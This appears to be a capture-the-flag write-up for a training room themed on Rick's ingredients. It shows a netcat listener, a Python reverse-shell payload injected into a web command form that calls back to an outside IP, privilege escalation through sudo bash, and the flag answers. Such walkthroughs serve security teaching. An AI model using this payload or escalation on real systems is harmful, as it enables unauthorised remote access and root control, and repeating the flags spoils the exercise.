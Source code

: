 ## What is the second ingredient Rick needs?

Open a listener on your machine:
~~~
$ nc -lnvp 9999
~~~

Create the reverse shell by injecting the following payload to the command form (web page):

~~~
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.35.106",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

On the reverse shell:

~~~
$ cd /home
$ ls
rick
ubuntu
$ cd rick
$ ls
second ingredients
$ cat second\ ingredients
1 jerry tear
~~~

## What is the final ingredient Rick needs?

~~~
fleeb juice
~~~


$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-207-16:/home/rick$ ls
ls
second ingredients
www-data@ip-10-10-207-16:/home/rick$ sudo -s
sudo -s
This account is currently not available.
www-data@ip-10-10-207-16:/home/rick$ sudo ubuntu
sudo ubuntu
sudo: ubuntu: command not found
www-data@ip-10-10-207-16:/home/rick$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ip-10-10-207-16:/home/rick$ sudo bash
sudo bash
root@ip-10-10-207-16:/home/rick# cd /ro	
cd /root/
root@ip-10-10-207-16:~# cd /root
cd /root
root@ip-10-10-207-16:~# ls
ls
3rd.txt  snap
root@ip-10-10-207-16:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
root@ip-10-10-207-16:~# 
